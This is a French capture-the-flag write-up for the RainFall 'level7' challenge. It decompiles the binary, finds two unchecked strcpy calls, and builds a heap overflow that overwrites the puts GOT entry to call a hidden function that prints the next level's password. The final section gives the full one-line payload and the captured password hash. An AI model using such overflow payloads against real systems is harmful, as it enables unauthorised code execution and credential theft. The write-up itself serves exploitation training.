 # Level 7

## Premierement, testons le programme

```bash
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 "B = better ascii"
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 "B = better ascii" "What about 'i' ?"
~~
```

On a donc un segfault si l'on met moins de deux arguments, regardons ce que ca donne dans ghidra

```c
undefined4 main(undefined4 param_1,int param_2)

{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;

  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
```

On peut voir 2 appels a `malloc`, 2 appels a `strcpy`(vulnerable au buffer overflow), et un appel a `fopen`, qui stock le `.pass` dans la variable `c`.
Et au niveau des fonctions dans gdb, on a ca:

```bash
(gdb) info functions
All defined functions:
Non-debugging symbols:
...
0x080484f4  m
...
```

Une fonction 'm' qui n'est pas appelée, regardons ce qu'elle fait:

```bash
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

donc avec ghidra:

```c
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  time_t tVar1;

  tVar1 = time((time_t *)0x0);
  printf("%s - %d\n",c,tVar1);
  return;
}
```

Elle print donc la variable `c` et le temps actuel.

`strcpy` etant vulnerable au buffer overflow, nous pouvons essayer de remplacer l'adresse de puts dans la GOT par l'adresse de `m`, et ainsi appeler `m` pour afficher le `.pass`. Nous allons premierement avoir besoin de l'adresse de `m` et de `puts`, avec gdb

```bash
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   ...
End of assembler dump.
```

```bash
(gdb) x/i m
   0x80484f4 <m>:       push   %ebp
(gdb) x/i puts
   0x8048400 <puts@plt>:        jmp    *0x8049928
```

L'adresse de `m` est donc `0x80484f4` et celle de `puts` est `0x8049928`.
Il faut trouver combien de caractères il faut pour remplir le buffer

```bash
level7@RainFall:~$ ./level7 AAAABBBBCCCCDDDDEEEE 1
~~
level7@RainFall:~$ ./level7 AAAABBBBCCCCDDDDEEEEFFFF 1
Segmentation fault (core dumped)
```

On a donc besoin de 20 caractères pour remplir le buffer.

```python
./level7 $(python -c 'print "i=69"*5 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1693761628
```
